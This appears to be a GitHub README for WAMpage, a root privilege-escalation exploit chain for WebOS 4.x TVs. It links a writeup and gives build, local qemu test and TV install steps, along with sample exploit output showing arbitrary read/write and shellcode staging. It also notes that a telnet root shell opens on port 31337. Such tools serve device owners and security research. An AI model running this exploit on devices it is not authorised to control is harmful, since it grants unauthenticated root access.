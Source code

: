 # WAMpage
WAMpage - A WebOS root LPE exploit chain

Currently only supports WebOS 4.x on 32-bit SoCs. This software is provided AS IS, use at your own rist, etc. etc.

Writeup: https://www.da.vidbuchanan.co.uk/blog/webos-wampage.html

![image](https://user-images.githubusercontent.com/13520633/147524216-c9fab6cd-6841-42ab-96b4-b7dd91ff0b23.png)


## Building

Prerequesites:

```bash
apt install qemu-user
npm install -g @webosose/ares-cli
```

Compiling:

```bash
make
```

## Testing Locally

`make test` will build and run the exploit in `d8`, running in `qemu-arm`. (A pre-compiled version of d8 and its dependencies are included in the `bin/` directory). If the exploit works succesfully, you'll probably get something like this:

```
[+] Starting WAMpage...
[+] addrof(myobj) = 0x5a68f5d1
[+] Test: reconstructed myobj: {"foo":"bar"}
[+] Set up arbread32/arbwrite32.
[+] stage2 shellcode loaded @ 0xff458000
[+] myfunc @ 0x5a693369
[+] stage1 RWX buf @ 0x5bb8f280
[+] Copied stage1 shellcode. Calling...
Traceback (most recent call last):
  File "<stdin>", line 25, in <module>
IOError: [Errno 13] Permission denied: '/dev/mem'
```

The permission error is expected, assuming your machine isn't totally misconfigured.

You can test the `devmemes.py` exploit by running it directly on a TV, but you'll either need root to begin with, or some other kind of unsandboxed/unjailed shell.

## Installation on TV

You can use `ares-install`, or manually copy over the IPK and run this from the devmode shell:

```bash
luna-send-pub -i 'luna://com.webos.appInstallService/dev/install' '{"id":"tv.rootmy.wampage","ipkUrl":"/path/to/wampage.ipk","subscribe":true}'
```

## Running on TV

Launch the app and press the "Start Exploit" button. If all goes well, a telnet server should open up on port 31337.
